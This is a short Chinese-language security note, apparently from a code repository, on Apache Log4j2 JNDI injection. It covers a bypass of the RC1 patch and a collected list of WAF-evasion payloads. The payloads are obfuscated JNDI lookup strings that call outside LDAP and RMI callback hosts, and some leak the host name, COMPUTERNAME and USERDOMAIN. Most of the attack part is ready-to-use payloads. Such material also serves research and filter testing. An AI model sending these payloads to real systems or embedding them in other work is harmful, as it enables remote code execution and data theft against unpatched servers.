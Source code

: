 
## RC1 绕过
参考文章: [Apache Log4j2从RCE到RC1绕过](https://xz.aliyun.com/t/10649#toc-2), 该版本中走到最后`lookup`操作时, 只要让`lookup`方法在执行的时候抛个异常就可以了(前提是开启`lookup`), 将`payload`修改成以下的形式:

```java
${jndi:ldap://xxx.xxx.xxx.xxx:xxxx/ ExportObject}
```

## Waf 绕过
这里收集了一点网上的`Waf`绕过`Payload`:

```text
${jndi:ldap://127.0.0.1:1389/ badClassName} 

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 

${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk
```


## 参考
 - [浅谈 Log4j2 漏洞](https://tttang.com/archive/1378/)
 - [log4j2 JNDI 注入漏洞分析](https://www.cnpanda.net/sec/1114.html)